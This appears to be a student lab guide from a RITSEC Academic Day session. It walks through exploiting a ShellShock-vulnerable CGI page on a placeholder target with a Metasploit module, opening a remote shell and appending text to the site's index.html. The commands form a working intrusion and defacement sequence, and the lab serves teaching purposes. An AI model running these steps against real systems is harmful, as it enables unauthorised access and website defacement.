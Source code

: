 # RITSEC Academic Day - ShellShock 

## Background
What is metasploit, what is shellshock, etc.C  

## Viewing the Website

Open your browser and head to http://<TARGET_IP>:8080

## Setup
Click the Black Box with the "$_" to open the terminal.

![terminal](terminal.PNG)

## Attacking the Box - Commands To Run
This will open the Metasploit Console.
1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

With the meterpreter prompt, enter `shell` to spawn a bash prompt on the box.

8. `shell`

![shell](shell.PNG)

## Modifying the Website

With your shell, now you can modify the website. Run the pwd command to see your path (location) on the remote box.

1. `pwd`

![pwd](whoamiandpwd.PNG)

Most websites by default keep their files in `/var/www`. Change to this directory and list the contents.

2. `cd /var/www`
3. `ls`

![cdandls](cdandls.PNG)

The `index.html` file contains the main page of the website. Add your name to it below. 

The `echo` command will write what you give it into the file given. MAKE SURE TO USE TWO (2) '>' keys!

4. `echo 'your_name_here' >> index.html`

![echo](addyourname.PNG)

Now visit the website and see that your name has been publicly added!

Now it's your turn, find out how to add a page of your own to the site. (Hint: use the `touch` command)
